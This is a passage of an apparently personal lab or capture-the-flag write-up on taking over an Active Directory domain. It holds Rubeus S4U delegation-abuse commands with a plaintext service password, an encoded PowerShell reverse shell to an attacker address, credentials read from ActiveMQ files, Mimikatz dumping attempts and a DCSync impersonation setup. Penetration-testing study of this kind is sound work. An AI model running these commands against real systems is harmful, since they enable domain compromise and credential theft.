g1E+ttmdFZPHlWkcOsDbOl8kmlzVGyaVWcXhJJgNX9+OH4qpWdDh8n8SFoszl6IfQAazqfBKcEfruZjJU4++abMrJpvwITu8HKPe37CSTImRWqbNnlsFmu670Sulo8wL75+HC5ak95gi2KzYE3idwEO7iWl/vO8BbD+MdbVM5XT8/p9wNAgt1MJnAE6feSaEPul4taIk9mEJUX7pq2h/y+gUSUpD7HUiqj9Cicf64ZfymASjrmxKHTUjfoSedo4HcMIHZoAMCAQCigdEEgc59gcswgciggcUwgcIwgb+gKzApoAMCARKhIgQgoeLfbkXuVJLQrnZonFWkm7ctmupKFjvnQTa9P3+qq0qhCxsJTTNDLkxPQ0FMohQwEqADAgEBoQswCRsHc3ZjX3NxbKMHAwUAYKEAAKURGA8yMDI0MDYxMjEwNDcyOVqmERgPMjAyNDA2MTIyMDAwMDFapxEYDzIwMjQwNjE5MTAwMDAxWqgLGwlNM0MuTE9DQUypHjAcoAMCAQKhFTATGwZrcmJ0Z3QbCU0zQy5MT0NBTA== /msdsspn:"TIME/M3WEBAW.M3C.LOCAL" /impersonateuser:"CHARLENE.BUTCHER" /domain:"M3C.LOCAL" /user:"SVC_SQL" /password:"ef8Mahvae2j1" /altservice:CIFS /nowrap

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.2

[*] Action: S4U

[*] Action: S4U

[*] Building S4U2self request for: 'svc_sql@M3C.LOCAL'
[*] Using domain controller: m3dc.m3c.local (10.9.20.10)
[*] Sending S4U2self request to 10.9.20.10:88
[+] S4U2self success!
[*] Got a TGS for 'CHARLENE.BUTCHER' to 'svc_sql@M3C.LOCAL'
[*] base64(ticket.kirbi):

      doIFxDCCBcCgAwIBBaEDAgEWooIE1DCCBNBhggTMMIIEyKADAgEFoQsbCU0zQy5MT0NBTKIUMBKgAwIBAaELMAkbB3N2Y19zcWyjggScMIIEmKADAgESoQMCAQKiggSKBIIEhhlM8I4FRpNz4hsaQC2P5u9Mvv4Apyke6KzSttZbnPnMxpfrhHme8Y3UquYMqcfRe92ghlQrlFaoJGTrE7dJb5+zel/mknPyRvSDbe4gzm2JaoX7px1za3nmXF/p1KLn0cWfGFYZk+Q9Rt85rpHIS1G2uapVh0NHo98ysCH6gf3TRsbiBSIiB344ufEdQ1GERVUXF3WhLvSt4FJYKMpr70WXw+dDYjo/43jXzmoSOmSfc6nK/YMQtJTel+Fj9b90G9Wx0W1n45XLD4Nb3x8xBA279DNksEWk66fJjvEL36juWoM+qZ7YZFetyHFf/+ppNFmY2lbdlULzsTWQDGVTyEK9lg0ipIvs7sop6Mwt/f067Di946yAaRwoDHeEYeoUdZcKp4uglVwClafmYnmXAo6Ce3RvtpwMvDqS0lk1l1OjUVpgFIiVsOLQbQHjdlW+9QfAmPhpAXktqtQNzYG5qXsJGAWjnHAUfj9Tv4oWlAIUCm5J0iOl52dQoLhLpm2PonP60CtOfFPn0W7dwlUCZWoXAoGywjisqhHbS0QJPYqcu+hAOoJHaEoJg3CrPLcOwFRoZSrcXlSst7A1H90tcVpxqUf6gdbFkVRpy4H4G2UILr+BwiJbfp+zmpt076xAzkqknHG25HChQfh4JqL0quWOzVD0bivFFmv3Jyr/BW2OdijdQsPBbSlgPEBNURgXD+Z1Qy/zKygrmeWNan54x1vARFV+JSrwsKF5V+mh/BFiQHcOjTOSWGZ5EGyAf/MTn9Qs2MtrX3fcLwDp52n21a8lUwt14nWg6fxSyEBnnyJv9H+XgsiG/rDZEIlNFsRwMtsLL4gBLRo+UeoF+w9PD2CObFIlFfvRAmVIzP+NC5dIlpAifSacXQ9TEtA1pWXpc4xdmiihklbxaOXnIIpHVEgrozmyUMi+f8v5qmhgm4ojZRh5p8Mbz+pp1EgZjLFq0BCOC83LrEXQED/PIGQCmLwpcOzCu/mJg8Lg2YvPoUnigreJwSDiOmmJyKZwu3AhQY9aEsjkUBuyk5uuNGRWh8BcvA2vns57weqQeOUBfp1msuAIEXhgXSNGN4fRXgtnsJdR6b01v0FFc54VvdnTiE6uKPQu12bqE8xk2wela6LjKZZspbZHVDH5KHq1+Pmg0gB4EJ/NVlt79FhhVMW023XWFAeQTiHo8TpAzHPAriYQyiBLJtEg0QQbgHso3cSRPbEFP4a0sIVHtvET3BW6Fptt1rflK6nKRepS5bBKRYjSkkWehFW5XxIagkcIqaPVYLse6iADHfwxZmxbZH8MqBrC3mWFWDy9aG5IUUFunyoGC1cMXkb/DrLvRuCG9o2MpJGlS+/DMQlAwBOk0n9W43SRUoG2cbMiccxDeTgnCu3drFfpEogselohe1mK6zjG1U240KnzbwqmWcbAudeo2elkMToTkbaClLLuzRwWdwXq5DO7Qu/aU/GIYweOkx3fSdJSnjbrLra8rUJ2OEKD/gQoxJj78sIXxRjwoPzsvC2n/qHkm8trPsyqP473WXmMjcg4LpE+naOB2zCB2KADAgEAooHQBIHNfYHKMIHHoIHEMIHBMIG+oCswKaADAgESoSIEIJ2lrx0ZkVCtuLnT6YqUgzqKrbdJ4Utz+r69bJwPZgAAoQsbCU0zQy5MT0NBTKIdMBugAwIBCqEUMBIbEENIQVJMRU5FLkJVVENIRVKjBwMFAGChAAClERgPMjAyNDA2MTIxMDQ5MTVaphEYDzIwMjQwNjEyMjAwMDAxWqcRGA8yMDI0MDYxOTEwMDAwMVqoCxsJTTNDLkxPQ0FMqRQwEqADAgEBoQswCRsHc3ZjX3NxbA==

[*] Impersonating user 'CHARLENE.BUTCHER' to target SPN 'TIME/M3WEBAW.M3C.LOCAL'
[*]   Final ticket will be for the alternate service 'CIFS'
[*] Building S4U2proxy request for service: 'TIME/M3WEBAW.M3C.LOCAL'
[*] Using domain controller: m3dc.m3c.local (10.9.20.10)
[*] Sending S4U2proxy request to domain controller 10.9.20.10:88
[+] S4U2proxy success!
[*] Substituting alternative service name 'CIFS'
[*] base64(ticket.kirbi) for SPN 'CIFS/M3WEBAW.M3C.LOCAL':

      doIGbDCCBmigAwIBBaEDAgEWooIFfDCCBXhhggV0MIIFcKADAgEFoQsbCU0zQy5MT0NBTKIkMCKgAwIBAqEbMBkbBENJRlMbEU0zV0VCQVcuTTNDLkxPQ0FMo4IFNDCCBTCgAwIBEqEDAgEBooIFIgSCBR7+QqhPSsCl1j5Kb4+kquMD6FS7kOIl0UZ+Wtq0zaSdJXDfQD4juGj3dKtQaZ5WpPchzRTZrym2sWtjQuWND0RYptlf8j/kWEnhgPoPsxfK0ENZzUTVWfNS3tHNL73ASN2YoDwYbFsRozTO+qA391byHW/rjIUlYZ9xKY8+VTvfk7+zUjsEiT2uiw77yEfwFp4zTlelb0j7BKgXYBqFmFTWIYH8weZSMTf9NX5B9OS0IE68n67GNrYzY8fvjf702XB0tfocxzwweWvzAPn2oFyffOjg2lLhcTsVnMEGE1IgQOKFBcya83gnUjcD11CoLFDhP/vMsBVbCIsArIGQAe3UFhRLizp35TFNNw0j2LALfYIGWI5pVTvH+oXjaJXcjWy7oJlHYCYi5YS22tDPqAdIMiSAwE+hPTBNn/WBnVKNVrmhJNJ6ceKMKHUkPYsCyY76O94iCnNTdareHsNuNXz+GJeTJl2CP53NGOJcBnO9xqlQl3S8xDO+Hwbyd+1PH8KGZRl8mPN4w+/i2SoVczhL0u6Xrzv7JeZmYG02LaAO+KhUZoTyxD6ZK/bFlQOyIL73ZD32tOSw6+AHmoGiUXhLBapA+ly8AXyMwMO5bbnJUTmF81HK2fk9/DiPH//N7MXMry7+q7f1+TYLT4Qq56cVAB69dVIMy/P3Gaf3H90Gfry5BpELZxNhrH2CDrky34bZmA+UcjV9tzmv9PPmifI4kyXbvcxbjAa5YBEOffXVwtC5bP2IRIvPk18ue4H9xYgCwEL7QzHGRuHsspEGeHTr6KwP08/bNFACjj5GMaj/eJm2ZMpV1hTjFw+WV5SZd7/Niy//CzpJ6DwUMEN2y2CruqohiYqE4rGDQpDIolDIQ0sugXBv6Qk5LqCreE0Y3maU5uKI+igHDM+MLUXWoUaiqKHm3d0qLg5msaL74ctQ2wgNendN1Y9rLs++/ZZl4QMx7kbdIXbEBuG+g8Z9gxZtrl4GLGNEGo8jzGAhI20LkND6hqeF/KICqI/P7Spiz5T0VFoUEOk6YhN7BqwIk1ZeNJJCbW/PIBrxDNNumoiUkNe8zdF/UEMlXNlBS7HCZq4N8lSz7ovs1X/LaWjE4rP3A2VyeoSYGxIKxLjm7IieK3Zs7IdUuYHkoYyj3hrt0AEkfcUSuSP+RxlApifYUWBOwEYTVLV1SoC8RXQJbs8PSTy0aL7nXvWUuYAdtEcNXZlDQdEzHD8TBeQsCWncD3tkILK5MmcIoEsk1nX2ZXXrGnzcFPyRRXWf1OUh4oYkAENIKJo82gqBhFVx0qLscQkx9JG7JReBbY+O0E4Cg8YYymfu1Gf7v2oTsscVpi2NnpL94CR66C3OAHoWGBc01ySg3UuNplupuHzUtj7IwrH1/wZJFV5H7OMMMEmb97qUTBOa9yt8EzhOqbmsjKURHAk8kG7djLzxh31+8uO8IM3CiHAowz3nnrkMEAHgF0EFWK/2uIWywmLvyPVTaa1Ua2LjeOHeCI0DczSMNWzM7BMlHTIA09/uc2R7Ey6eVCdy7JavTEllJAqFfGXI9BHZxEdOx1N5UmMxR4ODeW8vq7mvQznc+1erFY1rY51d2ee/e8krXo49KvXJx5W64nBNULOe+M9a8T+kz8Y6S7JmItDCUK1OYqI2ozxO2Z27bAb+SBeI30nSbtNrhY0RwLL2RQth6s+ueGfaAtnCtlOMo/9miNo4EcilomW8UOLfQhUBAe5syolhcnjz7mzJuNiGfqOB2zCB2KADAgEAooHQBIHNfYHKMIHHoIHEMIHBMIG+oBswGaADAgERoRIEEESOc91WooV6NKwl9P/yAFahCxsJTTNDLkxPQ0FMoh0wG6ADAgEKoRQwEhsQQ0hBUkxFTkUuQlVUQ0hFUqMHAwUAYKEAAKURGA8yMDI0MDYxMjEwNDkxNVqmERgPMjAyNDA2MTIyMDAwMDFapxEYDzIwMjQwNjE5MTAwMDAxWqgLGwlNM0MuTE9DQUypJDAioAMCAQKhGzAZGwRDSUZTGxFNM1dFQkFXLk0zQy5MT0NBTA==
```

And I forgot to run it with /ptt option to inject it in the same session...



Now we should be able to surf via dir  but it is still not working so i created the same ticket but to impersonate over the HTTP service, this should be enough for Powershell remoting but seems like I had to opt for metasploit since it requires a more interactive shell, and now I generated a new ticket and it seems working better?

```
PS > klist

Current LogonId is 0:0x3326ce

Cached Tickets: (1)

#0>	Client: Charlene.Butcher @ M3C.LOCAL
    Server: http/m3webaw @ M3C.LOCAL
    KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
    Ticket Flags 0x60a10000 -> forwardable forwarded renewable pre_authent name_canonicalize
    Start Time: 6/12/2024 9:09:24 (local)
    End Time:   6/12/2024 17:32:01 (local)
    Renew Time: 6/19/2024 7:32:01 (local)
    Session Key Type: AES-128-CTS-HMAC-SHA1-96
    Cache Flags: 0
    Kdc Called:
PS > Enter-PSSession -ComputerName m3webaw
ERROR: Enter-PSSession : The method or operation is not implemented.
ERROR: At line:1 char:1
ERROR: + Enter-PSSession -ComputerName m3webaw
ERROR: + ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
ERROR:     + CategoryInfo          : NotImplemented: (:) [Enter-PSSession], PSNotImplementedException
ERROR:     + FullyQualifiedErrorId : NotImplemented,Microsoft.PowerShell.Commands.EnterPSSessionCommand
ERROR: 
PS >
```

But seems like we can use this:



```
PS > $session = new-pssession -computername m3webaw
PS > invoke-command $session {whoami}
m3c\charlene.butcher
PS > ^[
```

Knowing this we should be able to gain another shell?

```
PS > Invoke-Command -ComputerName M3WEBAW -ScriptBlock {powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AOQAuADIAMAAuADEAMwAiACwANAA0ADMAKQA7ACQAcwB0AHIAZQBhAG0AIAA9ACAAJABjAGwAaQBlAG4AdAAuAEcAZQB0AFMAdAByAGUAYQBtACgAKQA7AFsAYgB5AHQAZQBbAF0AXQAkAGIAeQB0AGUAcwAgAD0AIAAwAC4ALgA2ADUANQAzADUAfAAlAHsAMAB9ADsAdwBoAGkAbABlACgAKAAkAGkAIAA9ACAAJABzAHQAcgBlAGEAbQAuAFIAZQBhAGQAKAAkAGIAeQB0AGUAcwAsACAAMAAsACAAJABiAHkAdABlAHMALgBMAGUAbgBnAHQAaAApACkAIAAtAG4AZQAgADAAKQB7ADsAJABkAGEAdABhACAAPQAgACgATgBlAHcALQBPAGIAagBlAGMAdAAgAC0AVAB5AHAAZQBOAGEAbQBlACAAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4AQQBTAEMASQBJAEUAbgBjAG8AZABpAG4AZwApAC4ARwBlAHQAUwB0AHIAaQBuAGcAKAAkAGIAeQB0AGUAcwAsADAALAAgACQAaQApADsAJABzAGUAbgBkAGIAYQBjAGsAIAA9ACAAKABpAGUAeAAgACQAZABhAHQAYQAgADIAPgAmADEAIAB8ACAATwB1AHQALQBTAHQAcgBpAG4AZwAgACkAOwAkAHMAZQBuAGQAYgBhAGMAawAyACAAPQAgACQAcwBlAG4AZABiAGEAYwBrACAAKwAgACIAUABTACAAIgAgACsAIAAoAHAAdwBkACkALgBQAGEAdABoACAAKwAgACIAPgAgACIAOwAkAHMAZQBuAGQAYgB5AHQAZQAgAD0AIAAoAFsAdABlAHgAdAAuAGUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkAKQAuAEcAZQB0AEIAeQB0AGUAcwAoACQAcwBlAG4AZABiAGEAYwBrADIAKQA7ACQAcwB0AHIAZQBhAG0ALgBXAHIAaQB0AGUAKAAkAHMAZQBuAGQAYgB5AHQAZQAsADAALAAkAHMAZQBuAGQAYgB5AHQAZQAuAEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA}
```

Nice!!!



And knowing that she is part of Server Admins I guess we can add another user?



Now we can't do jackshit here so i will check around and seems there is a folder about ActveMQ!



Can we see some creds from the portal?  


Seems encoded?

```
PS C:\ActiveMQ\conf> cat credentials-enc.properties
## ---------------------------------------------------------------------------
## Licensed to the Apache Software Foundation (ASF) under one or more
## contributor license agreements.  See the NOTICE file distributed with
## this work for additional information regarding copyright ownership.
## The ASF licenses this file to You under the Apache License, Version 2.0
## (the "License"); you may not use this file except in compliance with
## the License.  You may obtain a copy of the License at
##
## http://www.apache.org/licenses/LICENSE-2.0
##
## Unless required by applicable law or agreed to in writing, software
## distributed under the License is distributed on an "AS IS" BASIS,
## WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
## See the License for the specific language governing permissions and
## limitations under the License.
## ---------------------------------------------------------------------------

# Defines credentials that will be used by components (like web console) to access the broker

activemq.username=system
activemq.password=ENC(mYRkg+4Q4hua1kvpCCI2hg==)
guest.password=ENC(Cf3Jf3tM+UrSOoaKU50od5CuBa8rxjoL)
PS C:\ActiveMQ\conf>
```

And we have the un-encrypted, which seems not working to login into portal.

```
PS C:\ActiveMQ\conf> cat credentials.properties
## ---------------------------------------------------------------------------
## Licensed to the Apache Software Foundation (ASF) under one or more
## contributor license agreements.  See the NOTICE file distributed with
## this work for additional information regarding copyright ownership.
## The ASF licenses this file to You under the Apache License, Version 2.0
## (the "License"); you may not use this file except in compliance with
## the License.  You may obtain a copy of the License at
##
## http://www.apache.org/licenses/LICENSE-2.0
##
## Unless required by applicable law or agreed to in writing, software
## distributed under the License is distributed on an "AS IS" BASIS,
## WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
## See the License for the specific language governing permissions and
## limitations under the License.
## ---------------------------------------------------------------------------

# Defines credentials that will be used by components (like web console) to access the broker

activemq.username=system
activemq.password=manager
guest.password=password
PS C:\ActiveMQ\conf>
```

And we have another flag baby and the creds from the portal?

```
PS C:\ActiveMQ\conf> cat jetty-realm.properties
admin: 3f18DV^t!svBV4ntcrLRTWi2XaMCDK, admin
#Cyb3rN3t1C5{CR3d$_!n_fil3s}
```

Checking the jetty.xml in the same folder we can see that the user should be admin?



Then under webapps we can see an interesting folder hehe:

```
PS C:\ActiveMQ\webapps> ls


    Directory: C:\ActiveMQ\webapps


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        6/12/2024   3:31 AM                admin
d-----        1/24/2020  12:12 AM                api
d-----        1/24/2020  12:12 AM                fileserver
d-----        1/24/2020  12:12 AM                images
d-----        1/24/2020  12:12 AM                styles
-a----        2/13/2015  10:54 AM           3638 favicon.ico
-a----        2/13/2015  11:05 AM           6180 index.html


PS C:\ActiveMQ\webapps>
```

&nbsp;

# Road to Foothold

Now I guess with these credentials I need to upload a reverse shell that will get us to what i guess SVC_APACHE which is BTW the user used to run the ActiveMQ?

These creds allows us to access the portal and see that the version used is the 5.11.1



And we can use the default task i meterpreter..



But on my surprise i am already SYSTEM lol!!!



But here the whole VPN crashed so i had to redo the crap...



And now back on track!


Now I will upload mimikatz.exe and dump the immaginable! But seems like my meterpreter shell is a bit wanky.

So seems like sam is not dumpable(I noticed a GPO blocking this option so it is not strange):

```
C:\Temp>mimikatz.exe "token::elevate" "lsadump::sam" "exit"
mimikatz.exe "token::elevate" "lsadump::sam" "exit"

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # token::elevate
Token Id  : 0
User name : 
SID name  : NT AUTHORITY\SYSTEM


mimikatz(commandline) # lsadump::sam
Domain : M3WEBAW
SysKey : 0f5d7a9467c2546531be511c099466af
ERROR kull_m_registry_OpenAndQueryWithAlloc ; kull_m_registry_RegOpenKeyEx KO
ERROR kuhl_m_lsadump_getUsersAndSamKey ; kull_m_registry_RegOpenKeyEx SAM Accounts (0x00000005)

mimikatz(commandline) # exit
Bye!
```

But seems like all is blocked..



Now I know somewhere that was possible to bypass the LSASS dump protection by using a custom library:

https://san3ncrypt3d.com/2021/11/01/mimi/

Now I still get issues so it's clear that this isnt't the right way?



The i remember going back to the Bloodhound and seems like our user can run stuff over DC?

Seems like Is again about kerberos RBCD:

I will use this as reference: https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/resource-based-constrained-delegation#attack

&nbsp;So I will useSharpview.exe which is a C# implementation of Powerview.ps1 to add a new fake machine, since we can't really import anything in our session...

And it seems working so far...



But seems like this ins't the way to go? I asked for tips and apparently the same step I did before for the other stuff need to be done...

So i will ask the TGT from svc_apache via rubeus.exe

```
C:\Temp>.\Rubeus.exe tgtdeleg
.\Rubeus.exe tgtdeleg

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0 


[*] Action: Request Fake Delegation TGT (current user)

[*] No target SPN specified, attempting to build 'cifs/dc.domain.com'
[*] Initializing Kerberos GSS-API w/ fake delegation for target 'cifs/m3dc.m3c.local'
[+] Kerberos GSS-API initialization success!
[+] Delegation requset success! AP-REQ delegation ticket is now in GSS-API output.
[*] Found the AP-REQ delegation ticket in the GSS-API output.
[*] Authenticator etype: aes256_cts_hmac_sha1
[*] Extracted the service ticket session key from the ticket cache: 9cV9cKG7OWMrpfwM/NcMwYCOioz6t7XIezudH+kT+Iw=
[+] Successfully decrypted the authenticator
[*] base64(ticket.kirbi):

      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
```

Before anything we need to impersonate to the right person, and seems like Nora is the right one, since she have permission to perform DcSync!



```
C:\Temp>.\Rubeus.exe s4u /user:svc_apache /ticket:doIFnDCCBZigAwIBBaEDAgEWooIEqDCCBKRhggSgMIIEnKADAgEFoQsbCU0zQy5MT0NBTKIeMBygAwIBAqEVMBMbBmtyYnRndBsJTTNDLkxPQ0FMo4IEZjCCBGKgAwIBEqEDAgEEooIEVASCBFDU2xGem8JYj5u//mgREXj0fD3zivYyBlU0hj3lzGn+K4vGxczOuuu9vzNFguw0hydvP6UdiXtcNC/OY+8aAXZQL4sq4zTHHZfP7/yhLJzuvbXqBKKg4e6vEXN0ED7Nxp69WILnI8uwg9dlN7xPyGtGWt6rfmgva/yYWUkp5E5hmgIHF4EyGHGr28ERwAJVju/MO88QNzprgzdPo3tE+wTlFh/QD23n+uwdGoTmjoITtG1K+gFiCxSS1WWND6KjGwA3tbEfMG2gk9FuqU7Brf4g5S3G5WmBH0kuASwUdY2PqItMGDjbxFDNvhJvsPRbL5Gi2wZfB0IyjCm2ZaBtztJlJe711NWlUm+TkNq0qDivkO4PTBo+/ZHLrOAn8VlNsSihypcZgapOWIjZJ2jilcjS2nbI+WdGwgN/inpUEOzxg/1Bsr+50j/ywtG7wtx3CFqiREAk3u0erAjCKHWvoVm2vlECD2puQVuK8ZWs8j79kSkPJWzwjux2xkYftvlolBMKKehI+u6YpWuRJXsZOcNtz3lTYGBJ/NSwLO+3J60X3PeXhA3Fap5fXIAs/Dh7CTkpIry0U6rGDDSLHGQGv+wLRCEUQhu02cEu/UJu4rsBerBrL9vvXhNoWz4iCYtA7QpYniw/4ewhl92Ptc2cS5PEV2bBg5wY2GSkK8orBidsDlrSC2WRb+TdA9B0hs/Md394mlClx9mtplPWh4Ikm86cTTndV/H08tTfoIITXTTDXS1noQ46eTI1vSZPAj2gA91OwMvJbTa/VHsUPyC+pjfZupImDVLzeRpn275kAn0Oj3Htd5n4/pZfUROWswyRcJLBxd/jNeSlpCXAON+gieRl55i6c4pSnBoknYNxkBmbiIJYPqFiTibcIt8ZowVhhkJBsyo98HQogR1SAGKUy1OLAXE0ZFa3KEKH7HDEvr1E4K3CnrTU7amW4+97SfBuP68vzP9XSFELVZ2SGc/3G7GoQY6ZlHFYwpjfVYZXnGhpMrVtu9/KGRl6iUa7Mv293xItOioH/adZ2q/3aIp7NflW7TD6RY+2aOfSEg38FEzM4VksF/74G5pjFKzNys9zlH11ca/4OC/0qcZpyKsG1v9tjCOtnNLX1hOozBS+ogJ6Oz4MMqX9TUcAbzvJdqA7S08dbue3WgSnY8eXhi7pWquUydB/IEjNFJC7y3laqOtnHIlHwYA6b4MIFuJUo0TOKJ8jCv12cq0PRgadcDHni3h/VbIOIkrtZItj1hXjhFo+/oPOTL/TJeXMv4cI/aq3CUPcDpoJRFbB4MvdJAxak6PV1b33YfM5N+MTD8INqxUYzQEKAIE38NElENU80sfizdIi9eP0zVtCWzYdQNpmMIRW90E0p7pw6pjRjmcrKrZDQKgUfVLdc1MINFDqZr6qJy0ykR6X0r3kRRAa1ahF3ZAB2+K2w4I099G9VxXa/sfqbW2Eth7mBKKXigdXr5cQ4MGjgd8wgdygAwIBAKKB1ASB0X2BzjCBy6CByDCBxTCBwqArMCmgAwIBEqEiBCAT7KAi1GVmLgyGBN+KvPEd8B2f4A/4x7yvqdwJBuF+R6ELGwlNM0MuTE9DQUyiFzAVoAMCAQGhDjAMGwpzdmNfYXBhY2hlowcDBQBgoQAApREYDzIwMjQwNjEyMTQ1MzU1WqYRGA8yMDI0MDYxMzAwMDAxOFqnERgPMjAyNDA2MTkxNDAwMThaqAsbCU0zQy5MT0NBTKkeMBygAwIBAqEVMBMbBmtyYnRndBsJTTNDLkxPQ0FM /impersonateuser:Norma.Branham /domain:m3c.local /msdsspn:cifs/m3dc /dc:m3dc.m3c.local /ptt /nowrap
.\Rubeus.exe s4u /user:svc_apache /ticket:doIFnDCCBZigAwIBBaEDAgEWooIEqDCCBKRhggSgMIIEnKADAgEFoQsbCU0zQy5MT0NBTKIeMBygAwIBAqEVMBMbBmtyYnRndBsJTTNDLkxPQ0FMo4IEZjCCBGKgAwIBEqEDAgEEooIEVASCBFDU2xGem8JYj5u//mgREXj0fD3zivYyBlU0hj3lzGn+K4vGxczOuuu9vzNFguw0hydvP6UdiXtcNC/OY+8aAXZQL4sq4zTHHZfP7/yhLJzuvbXqBKKg4e6vEXN0ED7Nxp69WILnI8uwg9dlN7xPyGtGWt6rfmgva/yYWUkp5E5hmgIHF4EyGHGr28ERwAJVju/MO88QNzprgzdPo3tE+wTlFh/QD23n+uwdGoTmjoITtG1K+gFiCxSS1WWND6KjGwA3tbEfMG2gk9FuqU7Brf4g5S3G5WmBH0kuASwUdY2PqItMGDjbxFDNvhJvsPRbL5Gi2wZfB0IyjCm2ZaBtztJlJe711NWlUm+TkNq0qDivkO4PTBo+/ZHLrOAn8VlNsSihypcZgapOWIjZJ2jilcjS2nbI+WdGwgN/inpUEOzxg/1Bsr+50j/ywtG7wtx3CFqiREAk3u0erAjCKHWvoVm2vlECD2puQVuK8ZWs8j79kSkPJWzwjux2xkYftvlolBMKKehI+u6YpWuRJXsZOcNtz3lTYGBJ/NSwLO+3J60X3PeXhA3Fap5fXIAs/Dh7CTkpIry0U6rGDDSLHGQGv+wLRCEUQhu02cEu/UJu4rsBerBrL9vvXhNoWz4iCYtA7QpYniw/4ewhl92Ptc2cS5PEV2bBg5wY2GSkK8orBidsDlrSC2WRb+TdA9B0hs/Md394mlClx9mtplPWh4Ikm86cTTndV/H08tTfoIITXTTDXS1noQ46eTI1vSZPAj2gA91OwMvJbTa/VHsUPyC+pjfZupImDVLzeRpn275kAn0Oj3Htd5n4/pZfUROWswyRcJLBxd/jNeSlpCXAON+gieRl55i6c4pSnBoknYNxkBmbiIJYPqFiTibcIt8ZowVhhkJBsyo98HQogR1SAGKUy